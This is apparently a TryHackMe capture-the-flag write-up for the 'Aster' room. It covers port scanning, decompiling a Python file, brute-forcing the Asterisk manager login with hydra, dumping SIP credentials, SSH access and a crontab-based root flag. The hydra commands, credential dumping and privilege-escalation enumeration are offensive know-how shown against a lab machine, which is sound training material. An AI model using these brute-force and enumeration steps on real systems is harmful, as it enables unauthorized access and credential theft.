





# Aster (Medium) - TryHackMe Writeup

Aster is a medium difficulty room available on [TryHackMe](https://tryhackme.com/room/aster). The machine requires a basic understanding of source code inspection (Python and Java), Asterisk enumeration and Crontab.

# Enumeration

I started with a network port scan to see which ports were open with `rustscan`.

```
┌──(giu㉿kali)-[~/Downloads/machine]
└─$ rustscan -a $TARGET -- -A   
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

[~] The config file is expected to be at "/home/giu/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.112.151.219:22
Open 10.112.151.219:80
Open 10.112.151.219:1720
Open 10.112.151.219:2000
Open 10.112.151.219:5038
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} -{{ipversion}} {{ip}} -A" on ip 10.112.151.219
...

PORT     STATE SERVICE     REASON         VERSION
22/tcp   open  ssh         syn-ack ttl 62 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fe:e3:52:06:50:93:2e:3f:7a:aa:fc:69:dd:cd:14:a2 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDEs6oKJb5SNNUczex8j97pL/V93XRaRytbAH7iR9pN0HbCmc2bD/Rg4IUuDArz4USY1G5aN0r+C3fcBSlmLWaqk+uzbNZFriELMcJPKa7tP7zx7o4TVMQDepvvcZUy9Z8QoA+n4cJYOjlldkWGq/dmsPQqBHDmHowxMauJkZxh2QVR0WpDZxcjbS26O8aC62QvT5ct9wgzBzD/dVV/SC3VH7sQOPsEFj+PHGoHrFz7MntxtRyR9Ujf+Dzbk2wnUVGrc6NZt8MV3vfo5nXjBRPTaIX6XNTijQxoj0/0NJ3YwntmHOQXaPu4++fzjP9cf4+r8PNppeKNYwWLRxzjnAiZ
|   256 9c:4d:fd:a4:4e:18:ca:e2:c0:01:84:8c:d2:7a:51:f2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPROPGV3YntCB4YEBuSk7u8qF0H9WxI9nTGbCJahJP4gJNcEj4uwn24Ep1eSs0kHxjFdri6+QQlPUygwRvAQqTs=
|   256 c5:93:a6:0c:01:8a:68:63:d7:84:16:dc:2c:0a:96:1d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPrB46mC2C71WGXfIc9TwwLWhC99D9M2IxUHbQCbH0vp
80/tcp   open  http        syn-ack ttl 62 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Aster CTF
1720/tcp open  h323q931?   syn-ack ttl 62
2000/tcp open  cisco-sccp? syn-ack ttl 62
5038/tcp open  asterisk    syn-ack ttl 62 Asterisk Call Manager 5.0.2
...
```

## HTTP (80)

I discovered an open http port, so I started the enumeration from there.



After clicking on the download button, a `.pyc` file could be retrieved from server. Using `file` utility, I discovered that it was a byte-compiled Python file.

```
┌──(giu㉿kali)-[~/Downloads/machine]
└─$ file output.pyc 
output.pyc: python 2.7 byte-compiled
```

With an [online pyc decompiler](https://www.decompiler.com/python), I was are able to reverse the file and see its Python source code. 



The variable `oO00oOo` contained a suspicious hex string, which once translated revealed an hidden message.



The message leaked that user `admin` existed on the “open source framework for building communications”, so it was surely referring to asterisk.



## Asterisk (5038)

The previous finding was confirmed by the banner appeard after trying a basic connection on port 5038. Unlucky, there were no available exploits for the reported Asterisk’s version. 

```
┌──(giu㉿kali)-[~/Downloads/machine]
└─$ nc $TARGET 5038
Asterisk Call Manager/5.0.2
^C

┌──(giu㉿kali)-[~/Downloads/machine]
└─$ searchsploit asterisk 5.0.2
Exploits: No Results
Shellcodes: No Results
```

# Exploitation

Because of the `admin` hint found in the previous message, I tried a password bruteforce on the service and finally got a pair of valid credentials. I could now login as user `admin`.

```
┌──(giu㉿kali)-[~/Downloads/machine]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt $TARGET asterisk
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-11-16 11:36:04
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking asterisk://10.112.151.219:5038/
[5038][asterisk] host: 10.112.151.219   login: admin   password: abc123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-11-16 11:36:06
```

For reference, I used an [online guide](https://asteriskrecipes.com/reference/cli-commands/cli-commands-quick-reference) for basic Asterisks commands (made sure to press 2 times enter after each input 🙂).

```
┌──(giu㉿kali)-[~/Downloads/machine]
└─$ nc $TARGET 5038
Asterisk Call Manager/5.0.2
Action: Login
Username: admin
Secret: abc123

Response: Success
Message: Authentication accepted

Event: FullyBooted
Privilege: system,all
Uptime: 2387
LastReload: 2387
Status: Fully Booted
```

Using `sip show users` command I was able to enumerate all available users.

```
action: command
command: sip show users

Response: Success
Message: Command output follows
Output: Username                   Secret           Accountcode      Def.Context      ACL  Forcerport
Output: 100                        100                               test             No   No        
Output: 101                        101                               test             No   No        
Output: harry                      p4ss#w0rd!#                       test             No   No
```

The results showed a pair of credentials.

# Initial Access

I tried to login via ssh as user `harry` with the found password and got an initial access into the machine.

```
┌──(giu㉿kali)-[~/Downloads/machine]
└─$ ssh harry@$TARGET
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
harry@10.112.151.219's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-186-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Wed Aug 12 14:25:25 2020 from 192.168.85.1
harry@ubuntu:~$ cd /home/harry/
harry@ubuntu:~$ ls
Example_Root.jar  user.txt
harry@ubuntu:~$ cat user.txt 
thm{REDACTED}
```

# PrivEsc

Once the main user of the target server is compromised, I had to move on for privilege escalation. I started with a basic enumeration.

`sudo -l`, `SUID`, and `crontab` file were the first things that I looked for.

```
harry@ubuntu:~$ sudo -l
[sudo] password for harry: 
Sorry, user harry may not run sudo on ubuntu.

harry@ubuntu:~$ find / -perm -4000 2>/dev/null
/bin/mount
/bin/ping6
/bin/umount
/bin/su
/bin/ping
/bin/fusermount
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/vmware-user-suid-wrapper
/usr/bin/newgrp
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign

harry@ubuntu:~$ getcap -r / 2>/dev/null
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep

harry@ubuntu:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
*  *    * * *   root    cd /opt/ && bash ufw.sh
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    cd /root/java/ && bash run.sh
#
```

Luckily, I found a suspicious crontab entry: `cd /root/java/ && bash run.sh` executed as `root` user. This could surely be a suitable privilege escalation vector.

I remembered the `.jar` file in the user's home directory, so I tried to extract it to see what’s inside.

```
┌──(giu㉿kali)-[~/Downloads/machine]
└─$ scp harry@$TARGET:/home/harry/Example_Root.jar .  
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
harry@10.112.151.219's password: 
Example_Root.jar                                                                                                                                                                         100% 1094    14.4KB/s   00:00    
                                                                                                                                                                                                                           
┌──(giu㉿kali)-[~/Downloads/machine]
└─$ ls
Example_Root.jar  output.py  output.pyc                                                                                                                                                                        
┌──(giu㉿kali)-[~/Downloads/machine]
└─$ unzip Example_Root.jar 
Archive:  Example_Root.jar
   creating: META-INF/
  inflating: META-INF/MANIFEST.MF    
  inflating: Example_Root.class
```

Using again the same online decompiler, I was able to inspect the Java source code.



The Java code checked if file `/tmp/flag.dat` existed, and then wrote a secret message in `/home/harry/root.txt`. It was very likely, given the filename `Example_Root.class`, that the code shared the same logic with the `run.sh` script present in the `crontab` file. To confirm my theory, I created the `/tmp/flag.dat` file, and after a few seconds the script wrote the root flag inside `root.txt`.

```
harry@ubuntu:~$ ls
Example_Root.class  Example_Root.jar  META-INF  user.txt
harry@ubuntu:~$ touch /tmp/flag.dat
harry@ubuntu:~$ cat /tmp/flag.dat 
harry@ubuntu:~$ ls
Example_Root.class  Example_Root.jar  META-INF  root.txt  user.txt
harry@ubuntu:~$ cat root.txt 
thm{REDACTED}
harry@ubuntu:~$
```
